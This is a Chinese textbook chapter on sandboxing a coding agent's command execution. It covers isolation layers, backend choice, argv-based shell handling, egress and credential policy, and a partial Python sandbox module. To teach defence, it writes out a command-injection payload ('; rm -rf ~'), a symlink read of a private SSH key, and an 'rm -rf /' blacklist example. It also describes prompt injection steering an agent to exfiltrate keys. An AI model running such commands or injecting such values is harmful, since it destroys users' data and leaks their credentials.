



# 第 10 章 沙箱与执行环境

## 本章导读

一个 CI 任务里，用户批准了“运行测试”。测试收集阶段执行了仓库里的 `conftest.py`，它读取宿主环境变量、扫描内网元数据服务，并尝试把结果发到外部地址。审批界面只写了“运行测试”，用户并不知道这条命令的真实影响面。审批通过不等于执行安全：权限回答“要不要做”，沙箱回答“即使代码有恶意或 bug，最多能影响到哪里”。本章把后一个问题变成工程约束。

## 学习目标

读完本章你将能够：

- 说清权限模型与沙箱的职责边界，知道审批为什么不能替代隔离；
- 把文件、进程、网络、资源、凭证、设备六类隔离维度映射到具体机制；
- 在本地进程、容器、microVM、gVisor 与远程沙箱之间做出有依据的选型；
- 实现一个以 argv 数组、环境白名单、进程组终止和输出上限为核心的命令执行层；
- 判断本地教学实现的边界，并把它接入 MiniCoder 的工具层、循环与子代理。

## 10.1 职责边界：审批说“要不要”，沙箱说“最多到哪”

一个动作从模型提出到真正发生，至少经过三道关：

| 关卡 | 回答的问题 | 失败时的后果 |
|---|---|---|
| 权限模型 | 这个动作该不该被允许？由谁批准？ | 不该做的事被批准 |
| 沙箱 | 允许之后，最坏能造成多大破坏？ | 该做的事失控，波及宿主、网络或凭证 |
| 审计 | 实际发生了什么？能否追溯？ | 出了问题无法定位与复现 |

第 11 章会展开第一道关。本章只讨论第二道：假设一个动作已经被允许，如何限制它的影响半径。

**审批是意图，沙箱是能力。** 用户批准“运行测试”，批准的是意图——我相信这个测试值得跑；他并没有逐条批准测试代码里可能出现的文件读写、网络请求和子进程。现代项目的测试入口本身就是一个任意代码执行器：`pytest` 会导入 `conftest.py`，`npm test` 会执行 `package.json` 里的脚本和依赖的生命周期脚本，`make test` 会执行 Makefile 里的任意命令。审批一个入口，不等于审批它触发的全部行为。

因此，权限策略无法靠枚举动作来兜底。Shell 命令是组合式的，仓库代码是任意程序，依赖还会继续拉取代码；你不可能在审批界面里穷举所有可能的副作用。**沙箱的作用不是判断对错，而是把“即使判断错了”的后果压到可接受范围**：即使测试代码是恶意的，它也只能碰到临时工作区、拿不到宿主凭证、连不上内网。

这带来一个重要的工程分层：

- 对可信的本地开发环境，本地进程执行可以接受，它提供的是便利和可重复性，不是安全边界；
- 对多租户服务、CI、处理不可信仓库的场景，必须有真正的隔离运行时；
- 对高价值凭证或强合规场景，隔离强度要提高到 microVM 或远程沙箱，并把网络与凭证收窄到最小。


本地的 `subprocess` 加超时、加环境变量过滤、加工作目录检查，都不是安全边界。子进程仍然可以读取宿主文件、访问网络、fork 出脱离管理的孙进程。本章的本地实现用于教学和单机开发，生产环境必须把 `backend` 换成容器、microVM 或远程沙箱。


沙箱的默认值应当按“最小能力”设置：每个任务一个工作区，只挂载需要的目录，默认拒绝出站，只注入完成任务所需的短期凭证。不要因为“反正有审批”就放宽沙箱；审批是人的判断，沙箱是系统的底线，两者不能互相替代。

## 10.2 隔离维度：没有单一机制能覆盖全部

“沙箱”常被当成一个开关，实际上它是一组维度的组合。选型时先问：我要防的是什么？

| 隔离维度 | 典型威胁 | 常见机制 | 仍然存在的缺口 |
|---|---|---|---|
| 文件系统 | 覆盖、删除、读取敏感文件 | 只读挂载、OverlayFS 可写层、每任务工作区 | 已挂载的目录仍可被读取；符号链接可能逃逸 |
| 进程 | fork 炸弹、杀死宿主进程、ptrace | PID 命名空间、cgroup pids、seccomp | 共享内核的容器仍可能被内核漏洞突破 |
| 网络 | 数据外泄、访问内网、下载恶意依赖 | 网络命名空间、默认拒绝出站、白名单代理 | 白名单域名可能被当作隧道；DNS 重绑定 |
| 资源 | CPU、内存、磁盘、文件描述符耗尽 | cgroup v2、rlimit、磁盘配额、墙钟超时 | 配额设置不当会误伤正常构建 |
| 凭证 | 读取环境变量、命令行、配置文件中的密钥 | 短期令牌、凭证代理、文件权限 | 进程仍能读取注入给它的任何凭证 |
| 设备与内核 | 访问 `/dev`、GPU、利用内核漏洞 | 设备 cgroup、用户命名空间、microVM、gVisor | 容器共享宿主内核，逃逸风险最高 |

这张表最重要的结论是：**隔离不是二元的，而是分维度的**。只做文件系统隔离，挡不住 fork 炸弹；只做网络隔离，挡不住删除工作区外的文件；只做容器，挡不住共享内核的漏洞。工程上要做的是按威胁模型选择组合，并接受残余风险。



图 10-1 中，沙箱边界不是一堵墙，而是几层相互独立的约束。文件系统层决定“能看见什么”，进程层决定“能跑多少、能碰谁”，网络层决定“能对外说什么”，凭证层决定“能代表谁”。任何一层单独失效，都不应让全部防线失效，这就是纵深防御（Defense in Depth）的含义。

容器的核心机制值得单独说明。命名空间（Namespace）负责“看见什么”：挂载、进程、网络、用户等命名空间把进程的视野隔开；控制组（cgroup）负责“用多少”：CPU、内存、进程数、设备访问；能力（Capability）负责“能做什么特权操作”；seccomp 负责“能调用哪些系统调用”。这四者组合起来，才构成一个可用的容器隔离面。缺了任意一项，容器就只是一个打包工具。

## 10.3 技术选型：隔离强度、启动开销与运维成本

常见的执行后端可以排成一条从弱到强的光谱：

| 后端 | 隔离强度 | 启动开销 | 运维成本 | 兼容性 | 适用场景 |
|---|---|---|---|---|---|
| 本地进程 | 无（不是安全边界） | 最低 | 最低 | 最好 | 单机开发、可信代码、教学 |
| 容器（OCI/runc） | 中，共享宿主内核 | 低 | 中 | 好 | 单租户 CI、可信仓库、开发环境 |
| gVisor | 中高，用户态内核拦截系统调用 | 中 | 中高 | 有兼容性缺口 | 需要强隔离但又要容器生态 |
| microVM（如 Firecracker） | 高，独立内核 | 中低 | 高 | 较好，需镜像管理 | 多租户、不可信代码、高价值凭证 |
| 远程/托管沙箱 | 取决于实现，通常高 | 网络往返 | 低（转移给服务方） | 受网络与数据合规约束 | 弹性伸缩、隔离外包 |


表中是定性比较，不是基准数据。不同实现、不同内核版本、不同镜像大小都会显著改变启动时间与隔离效果。具体能力与参数以各项目官方文档为准。


选型可以按三个问题决策：



图 10-2 的决策顺序是“信任边界优先，性能其次”。很多团队一开始选容器，等接入不可信仓库或多租户后才被迫迁移；如果产品形态已经确定要处理不可信代码，直接上 microVM 或远程沙箱，能省掉一次架构返工。

**写时复制与可写层**是文件隔离的关键。以 OverlayFS 为例，它把多个目录联合成一个视图：只读基座（Read-only Base）作为 `lowerdir`，每个沙箱一个空的可写层（Writable Layer）作为 `upperdir`，合并视图作为工作区。读取优先命中可写层，未命中再读基座；写入只落在可写层，基座保持不变。销毁沙箱时丢弃可写层，就得到一次干净的重置；需要保留产物时，只导出可写层的差异。

这个模型有三个直接推论：

1. **重置是廉价的**。不需要逐文件恢复，丢掉 upper 即可；这比“执行清理脚本”可靠得多。
2. **基座可以共享**。同一镜像或同一仓库基座可以被多个沙箱复用，节省磁盘与启动时间。
3. **差异就是审计线索**。工作区快照（Workspace Snapshot）比较执行前后的文件哈希，就能得到“改了什么”，并与第 7 章的 `TaskState.files` 对账。

容器镜像的分层复用了同一思想。区别在于，镜像层是构建产物，沙箱可写层是运行期状态；两者都不应该把宿主目录直接挂进去。

## 10.4 工作区模型：只读基座、可写层与逃逸面

工作区是模型和命令真正能碰到的那一小块磁盘。一个可用的工作区模型至少要回答四个问题：

- 哪些目录只读，哪些可写；
- 路径如何解析，越界如何拒绝；
- 符号链接指向外部时怎么办；
- 多个子代理同时写入时如何隔离。

**只读基座 + 每任务可写层**是默认答案。基座是用户代码或镜像内容，挂载为只读；可写层按任务或按委派创建，任务结束后丢弃或导出差异。这样即使 Agent 误删文件，损坏的也只是可写层。

路径解析要分两层看。第 5 章的 `Workspace.resolve()` 负责工具参数里的路径：它把相对路径解析到工作区，拒绝 `..` 逃逸，并在规范化之后做授权。这一层挡的是模型给出的路径参数。但命令子进程不经过 `Workspace.resolve()`：它可以直接打开 `/etc/passwd`，也可以沿着工作区里的符号链接走出去。**工具层的路径检查不能替代操作系统层的挂载隔离**，这是本章最容易被忽略的边界。

符号链接逃逸（Symlink Escape）是典型例子：工作区里有一个指向 `/home/user/.ssh` 的链接，命令 `cat link` 会忠实地读出宿主私钥。工具层的 `realpath` 检查可以拦住模型直接传 `../.ssh`，但拦不住子进程跟随链接。生产环境要用挂载命名空间把工作区之外的东西彻底移出视野，或在支持的系统上使用 `openat2` 的 `RESOLVE_BENEATH` 一类约束。本地教学实现只能做路径检查，不能声称自己防住了这类攻击。

还有几个容易被忽视的挂载点：

- **主目录**：不要挂载 `$HOME`，否则 `.ssh`、`.aws`、`.config` 全部暴露；
- **容器运行时 socket**：`/var/run/docker.sock` 等同于宿主 root，绝不能进沙箱；
- **云元数据地址**：`169.254.169.254` 一类地址要在网络层显式拒绝；
- **`.git` 与钩子**：`.git/hooks` 会在 `git commit` 等操作时执行任意脚本。要么把仓库放在可写层并接受风险，要么在沙箱里禁用钩子（例如把 `core.hooksPath` 指向空目录）；
- **临时目录**：把 `TMPDIR` 指到沙箱内部，避免多个任务在宿主 `/tmp` 里互相踩踏，也避免清理时漏掉临时文件。

多子代理共享工作区时，第 9 章的“读并行、写串行”需要落成具体策略：

| 策略 | 做法 | 优点 | 风险 |
|---|---|---|---|
| 共享可写工作区 | 所有子代理写同一目录 | 实现简单 | 并发覆盖、读到半成品 |
| 读共享 + 写隔离 | 基座共享，每个委派独立可写层 | 冲突面小，易回滚 | 需要父代理合并差异 |
| 按路径分区 | 每个子代理只写约定子目录 | 可并行写 | 分区边界要事先写进委派契约 |

默认选第二种：子代理的只读调查可以共享基座，写操作各自落在自己的可写层，父代理在汇合点按路径复核并合并。合并前先比工作区快照，冲突时以父代理的验收结果为准，而不是“最后写入者获胜”。

工作区快照还有一个审计用途：任务结束时，把执行前后的文件哈希差异写入会话事件，回答“这次任务改了哪些文件”。这与第 7 章的漂移检测互补：漂移检测回答“磁盘和记录是否一致”，快照差异回答“沙箱里到底发生了什么”。

## 10.5 Shell 工具的安全实现

命令执行是 Harness 里风险最高的工具。它同时具备任意代码执行、文件访问、网络访问和子进程派生能力，任何一个参数处理失误都可能把“执行一条命令”变成“执行攻击者拼接的一整段脚本”。

第一原则是**默认使用 argv 数组，不使用 shell 字符串**。`["git", "status", "--short"]` 会直接 `exec` 这三个参数，参数里的空格、引号、分号都只是普通字符；`"git status " + user_input` 则把用户输入交给 shell 解释，`; rm -rf ~` 会被当成第二条命令。命令注入（Command Injection）的根因不是过滤不严，而是把数据和代码放进了同一个字符串。

| 维度 | argv 数组 | shell 字符串 |
|---|---|---|
| 参数边界 | 由调用方明确给出 | 依赖引号与转义 |
| 注入风险 | 低，参数不被解释 | 高，元字符会被执行 |
| 管道与重定向 | 不支持，需显式建模 | 天然支持 |
| 可审计性 | 高，参数可结构化记录 | 低，需解析命令文本 |
| 适用场景 | 绝大多数工具调用 | 用户明确要求 shell 语义时 |

如果确实需要管道、通配符或环境变量展开，应提供一个**受控 shell 模式**：固定 shell 路径，把整段脚本作为单个 `-c` 参数传入，仍然经过命令策略检查，并明确告知模型“这是 shell 模式，参数不再安全”。不要把“需要管道”当成默认放宽 argv 的理由；多数场景可以用多个命令或一个脚本文件替代。

除了 argv，命令执行层还要处理六件事：

1. **固定工作目录**。`cwd` 必须解析到工作区内，并拒绝越界。不要继承 Harness 进程的当前目录，否则命令可能在仓库根目录之外执行。
2. **环境变量白名单**。只传 `PATH`、`LANG`、`LC_ALL`、`TERM` 这类无害变量，把 `HOME`、`TMPDIR` 指到沙箱内部；API Key、云凭证、代理密码默认不传。环境变量对子进程完全可见，也会出现在崩溃转储和调试输出里。
3. **墙钟超时与进程组终止**。只杀直接子进程不够：`bash -c "sleep 100 &"` 或测试框架派生的 worker 会留在后台。启动时创建独立进程组，超时后先向整个组发 `SIGTERM`，给一个短宽限期，再发 `SIGKILL`。
4. **输出上限**。编译日志和测试输出可能达到数百 MB，直接读进内存会拖垮 Harness，全部塞进上下文会挤爆预算。按流设置字符上限，保留头尾、显式标记省略量，剩余字节继续排空但不保留。
5. **stdin 处理**。默认关闭 stdin，避免命令等待交互输入而挂死；需要传输入时，限制大小并在写入后立即关闭。
6. **策略与机制分工**。命令黑名单（例如禁止 `rm -rf /`）只能改善提示与审计，不能当作安全边界；攻击者可以用变量拼接、脚本文件、编码转换绕过。真正的边界是沙箱的文件、网络与资源约束。如果只需要固定工具链，可以把 `PATH` 收窄到沙箱内的 bin 目录，或对 `argv[0]` 做允许列表；但解释器和包管理器仍能执行任意脚本，这依然是策略，不是隔离。



图 10-3 强调两点：超时不是“把返回值改成失败”那么简单，它要走一条明确的终止路径；终止之后仍然要记录审计，因为副作用可能已经发生。第 2 章的取消语义在这里落地为“停止新命令、终止当前进程组、把已发生的变更交给第 7 章对账”，不需要重新发明一套取消模型。

## 10.6 网络与凭证：默认拒绝，按需注入

网络的默认值应当是**拒绝全部出站**。理由很直接：数据外泄只需要一次成功的出站请求，而 Agent 处理的内容（仓库、issue、网页、工具返回）都可能包含攻击者可控的指令。提示词注入可以诱导模型读取密钥并发送出去；如果沙箱本身不能出站，这条路径就断了。

需要联网时，用出站策略（Egress Policy）逐步放开：

- 通过代理访问白名单域名与端口，而不是直接给沙箱一张通配网卡；
- DNS 查询也走代理，避免直连外部解析器；
- 显式拒绝云元数据地址、链路本地地址和内网网段；
- 包管理器只允许访问镜像源，依赖预热到本地缓存，安装时优先使用锁文件；
- 记录每次出站请求的域名、字节数与结果，供审计。

白名单不是万能的。允许访问的域名可能提供通用隧道，CDN 共享 IP 会让“按 IP 放行”失效，DNS 重绑定可以把一个已批准域名解析到内网地址。工程上要把白名单与内容审计、字节上限、TLS 终止或 SNI 过滤结合使用；如果安全要求更高，就走“默认拒绝 + 人工批准单次请求”的模式。

凭证的处理原则是：**凭证是能力，不是配置**。

| 注入方式 | 风险 | 建议 |
|---|---|---|
| 命令行参数 | `ps` 可见，进入 shell 历史与日志 | 禁止 |
| 环境变量 | 子进程、崩溃转储、调试输出可见 | 仅传无害变量；密钥不默认注入 |
| 工作区文件 | 可能被读取、提交、打包 | 只读挂载、权限 0400、任务结束即删 |
| 短期令牌 / 凭证代理 | 作用域窄、有效期短、可审计 | 首选；由代理在请求时注入请求头 |

短期令牌（Short-lived Token）应绑定到具体任务、仓库和操作，有效期以分钟计，任务结束立即失效。凭证代理（Credential Broker）则让沙箱永远看不到原始密钥：命令通过本地代理发请求，代理在出站时附上凭证，并记录“谁在什么时候用了什么权限”。这样即使沙箱被攻破，攻击者拿到的也只是一个受限的本地端点。

日志与追踪同样要脱敏。命令行参数、环境变量、URL 查询串、错误信息都可能夹带密钥；审计日志应记录键名与哈希，不记录值。第 14 章做结构化追踪时，这条规则要继续保持。


沙箱的网络隔离是提示词注入的最后一道防线，不是第一道。第一道是最小权限：不把密钥交给不需要它的任务，不把整个主目录挂进工作区，不让只读调查子代理拿到写工具。防线要从内往外建。


## 10.7 资源与生命周期

资源限制的目标不是“跑得更快”，而是“一个任务不能拖垮其他任务”。需要约束的维度包括 CPU 配额、内存上限、磁盘可写层大小、进程数、文件描述符数量和墙钟时间。容器用 cgroup v2 控制前四项，用 rlimit 补充文件描述符等限制；本地进程只能做一部分，而且很容易被绕过。

资源限制要分两层设置：

- **单命令上限**：一次编译或测试最多用多少 CPU、内存和时间，防止单条命令失控；
- **单沙箱上限**：一个任务累计消耗多少，防止模型通过大量小命令绕过单命令限制。

生命周期的标准形态是“创建 → 就绪 → 执行 → 快照 → 销毁”。生产环境还要考虑复用与预热：

- **每次任务新建**：隔离最干净，冷启动（Cold Start）成本最高；
- **预热池（Warm Pool）**：提前创建好若干空沙箱，用时直接挂载工作区，降低启动延迟；
- **复用**：执行完丢弃可写层、重置工作区后再用。只能在同一信任域内复用，绝不能把租户 A 的可写层留给租户 B。

销毁不是简单地删目录。要确保进程组已经终止、挂载已卸载、临时文件已清理、可写层已丢弃或导出。宿主重启、Harness 崩溃、容器调度器回收都可能留下孤儿沙箱，需要带 TTL 的垃圾回收和按标签扫描来兜底。

取消与超时要把“控制流停止”和“副作用处理”分开：取消令牌阻止新命令启动；终止进程组停止当前命令；已经写入工作区的文件不会自动消失。后者要交给工作区快照和第 7 章的对账逻辑处理，不能假装没发生。

## 10.8 可观测性：回答“在哪个沙箱、以什么身份、改了什么”

沙箱让执行多了一层，审计必须跟上。每条命令至少记录：

| 字段 | 用途 |
|---|---|
| `sandbox_id`、`backend`、镜像摘要 | 定位到具体执行环境 |
| `argv`（脱敏）、`cwd` | 复现命令与工作目录 |
| 退出码、信号、耗时、是否超时 | 判断成功、失败还是被终止 |
| stdout/stderr 字节数、是否截断 | 解释模型看到的观察为何不完整 |
| CPU/内存峰值、磁盘写入量 | 发现资源异常与配额误伤 |
| 网络请求目标与字节数 | 发现外泄与异常依赖下载 |
| 执行前后文件哈希差异 | 回答“改了什么” |

事件流建议与第 7 章的会话日志对齐，至少包含 `sandbox_created`、`command_started`、`command_finished`、`sandbox_destroyed`。第 14 章会把它们映射为 `Span`：一个沙箱是一个父 Span，每条命令是一个子 Span，`sandbox_id` 作为关联键。

CLI 不需要展示全部字段，但至少要让人一眼看到“这条命令在哪个沙箱里跑、退出码是什么、有没有被截断”：

```text
sbx-0001  /workspace  $ pytest -q
  exit=1  12.4s  stdout=8.2KB (truncated)  changed=src/app.py,tests/test_app.py
```

这行输出比“工具调用失败”有用得多：它把执行环境、结果和副作用放在同一行，运维可以直接判断是代码问题、超时还是输出预算问题。

## 10.9 代码实践：MiniCoder 的沙箱层

下面的 `sandbox.py` 新增四个核心对象：

- `SandboxSpec`：隔离配置，包含工作区基座、环境白名单、超时、输出上限与资源参数；
- `SandboxHandle`：一个已创建的沙箱，持有工作区、状态与运行计数；
- `CommandResult`：结构化命令结果，可直接转成第 5 章的观察文本；
- `run_command()`：以 argv 数组执行命令，负责路径检查、环境构造、进程组终止与输出截断。

教学实现只提供 `local` 后端：它在临时目录里复制只读基座来模拟可写层，用独立进程组实现整组终止，用字符上限实现输出截断。**它不是安全边界**；容器、microVM 与远程后端只保留 `backend` 字段作为接口，不在这里编造 API。`network`、`cpu_limit`、`memory_mb` 等字段在这里只是契约描述，`local` 后端不会强制执行；只有容器或远程后端才会把它们落到内核或调度层。命令被信号终止时，退出码记为负的信号编号，`signal` 字段保留名称，便于跨语言对齐。



```python
from __future__ import annotations

import hashlib
import os
import shutil
import signal
import subprocess
import sys
import tempfile
import threading
import time
from dataclasses import dataclass, field
from pathlib import Path
from typing import Any, Callable, Optional, Sequence


DEFAULT_ENV_ALLOWLIST = ("PATH", "LANG", "LC_ALL", "TERM")
EventSink = Callable[[str, dict[str, Any]], Any]


class SandboxError(RuntimeError):
    """沙箱生命周期、路径或命令约束被违反。"""


@dataclass(frozen=True)
class SandboxSpec:
    read_only_base: Optional[Path] = None
    env_allowlist: tuple[str, ...] = DEFAULT_ENV_ALLOWLIST
    timeout_s: float = 30.0
    max_output_chars: int = 8000
    network: str = "deny"          # deny / allowlist / open
    cpu_limit: float = 1.0
    memory_mb: int = 512
    pids_limit: int = 64
    disk_mb: int = 256
    backend: str = "local"         # local / container / microvm / remote
    image: str = ""
    keep_workspace: bool = False


@dataclass
class SandboxHandle:
    sandbox_id: str
    spec: SandboxSpec
    root: Path
    workspace: Path
    state: str = "ready"
    runs: int = 0
    created_at: float = field(default_factory=time.time)

    def resolve_cwd(self, raw: Optional[str]) -> Path:
        candidate = (self.workspace / (raw or ".")).resolve()
        try:
            candidate.relative_to(self.workspace)
        except ValueError:
            raise SandboxError(f"工作目录 {raw!r} 超出沙箱工作区") from None
        if not candidate.is_dir():
            raise SandboxError(f"工作目录不存在：{raw!r}")
        return candidate

    def build_env(self, extra: Optional[dict[str, str]] = None) -> dict[str, str]:
        env = {"HOME": str(self.root / "home"), "TMPDIR": str(self.root / "tmp")}
        for name in self.spec.env_allowlist:
            value = os.environ.get(name)
            if value is not None:
                env[name] = value
        if extra:
            allowed = set(self.spec.env_allowlist)
            for key, value in extra.items():
                if key not in allowed:
                    raise SandboxError(f"环境变量 {key} 不在白名单内")
                env[key] = value
        return env

    def audit(self) -> dict[str, Any]:
        return {
            "sandbox_id": self.sandbox_id,
            "backend": self.spec.backend,
            "state": self.state,
            "runs": self.runs,
            "network": self.spec.network,
            "workspace": str(self.workspace) if self.root.exists() else "",
        }


@dataclass
class CommandResult:
    sandbox_id: str
    argv: tuple[str, ...]
    exit_code: Optional[int]
    signal: str = ""
    stdout: str = ""
    stderr: str = ""
    duration_s: float = 0.0
    timed_out: bool = False
    stdout_total: int = 0
    stderr_total: int = 0
    truncated: bool = False

    def to_observation(self, max_chars: int = 1200) -> str:
        status = "timeout" if self.timed_out else f"exit={self.exit_code}"
        reason = f" signal={self.signal}" if self.signal else ""
        parts = [f"[sandbox {self.sandbox_id}] {status}{reason} in {self.duration_s:.2f}s"]
        if self.stdout:
            parts.append("stdout:\n" + self.stdout)
        if self.stderr:
            parts.append("stderr:\n" + self.stderr)
        if self.truncated:
            parts.append("[输出已截断；完整输出已记录在沙箱审计日志中]")
        text = "\n".join(parts)
        if len(text) <= max_chars:
            return text
        return text[:max_chars] + "\n…[observation truncated]"


class _Capture:
    """按字符上限收集输出：保留头部与尾部，中间只计数。"""

    def __init__(self, max_chars: int) -> None:
        self.max_chars = max(1, max_chars)
        self.head_limit = int(self.max_chars * 0.7)
        self.tail_limit = self.max_chars - self.head_limit
        self.head = ""
        self.tail = ""
        self.total = 0

    def feed(self, chunk: str) -> None:
        if not chunk:
            return
        self.total += len(chunk)
        if len(self.head) < self.head_limit:
            room = self.head_limit - len(self.head)
            self.head += chunk[:room]
            chunk = chunk[room:]
        if chunk and self.tail_limit:
            self.tail = (self.tail + chunk)[-self.tail_limit:]

    def text(self) -> str:
        if self.total <= self.max_chars:
            return self.head + self.tail
        omitted = self.total - self.max_chars
        return f"{self.head}\n…[truncated {omitted} chars]\n{self.tail}"


def _pump(stream: Any, capture: _Capture) -> None:
    try:
        while True:
            chunk = stream.read(4096)
            if not chunk:
                break
            capture.feed(chunk)
    finally:
        stream.close()


def _kill_group(proc: subprocess.Popen[str], grace_s: float = 0.5) -> None:
    if proc.poll() is not None:
        return
    try:
        os.killpg(os.getpgid(proc.pid), signal.SIGTERM)
    except ProcessLookupError:
        return
    try:
        proc.wait(timeout=grace_s)
    except subprocess.TimeoutExpired:
        try:
            os.killpg(os.getpgid(proc.pid), signal.SIGKILL)
        except ProcessLookupError:
            pass
        proc.wait()


_sandbox_counter = 0


def create_sandbox(spec: SandboxSpec) -> SandboxHandle:
    global _sandbox_counter
    if spec.backend != "local":
        raise SandboxError(
            f"教学实现只提供 local 后端；{spec.backend} 需要接入真实隔离运行时"
        )
    _sandbox_counter += 1
    root = Path(tempfile.mkdtemp(prefix="minicoder-sbx-"))
    workspace = root / "workspace"
    workspace.mkdir()
    (root / "home").mkdir()
    (root / "tmp").mkdir()
    if spec.read_only_base is not None:
        base = Path(spec.read_only_base).resolve()
        # 教学实现用整树复制模拟 OverlayFS 的下层；生产用只读挂载 + 可写层。
        shutil.copytree(base, workspace, dirs_exist_ok=True, symlinks=True)
    return SandboxHandle(
        sandbox_id=f"sbx-{_sandbox_counter:04d}",
        spec=spec,
        root=root,
        workspace=workspace.resolve(),
    )


def run_command(
    handle: SandboxHandle,
    argv: Sequence[str],
    *,
    cwd: Optional[str] = None,
    timeout_s: Optional[float] = None,
    stdin: Optional[str] = None,
    env: Optional[dict[str, str]] = None,
    sink: Optional[EventSink] = None,
) -> CommandResult:
    if handle.state != "ready":
        raise SandboxError(f"沙箱 {handle.sandbox_id} 已关闭")
    args = list(argv)
    if not args or not all(isinstance(item, str) for item in args):
        raise SandboxError("argv 必须是非空字符串数组；不要把 shell 字符串传进来")
    cwd_path = handle.resolve_cwd(cwd)
    child_env = handle.build_env(env)
    timeout = timeout_s if timeout_s is not None else handle.spec.timeout_s
    if timeout <= 0:
        raise SandboxError("timeout_s 必须为正数")

    if sink is not None:
        sink("command_started", {
            "sandbox_id": handle.sandbox_id,
            "argv": args,
            "cwd": cwd_path.relative_to(handle.workspace).as_posix() or ".",
        })
    started = time.monotonic()
    try:
        proc = subprocess.Popen(
            args,
            cwd=str(cwd_path),
            env=child_env,
            stdin=subprocess.PIPE if stdin is not None else subprocess.DEVNULL,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            text=True,
            encoding="utf-8",
            errors="replace",
            start_new_session=True,  # 关键：子进程拥有独立进程组，便于整组终止
        )
    except FileNotFoundError as exc:
        raise SandboxError(f"命令不存在：{args[0]}") from exc

    assert proc.stdout is not None and proc.stderr is not None
    out = _Capture(handle.spec.max_output_chars)
    err = _Capture(handle.spec.max_output_chars)
    readers = [
        threading.Thread(target=_pump, args=(proc.stdout, out), daemon=True),
        threading.Thread(target=_pump, args=(proc.stderr, err), daemon=True),
    ]
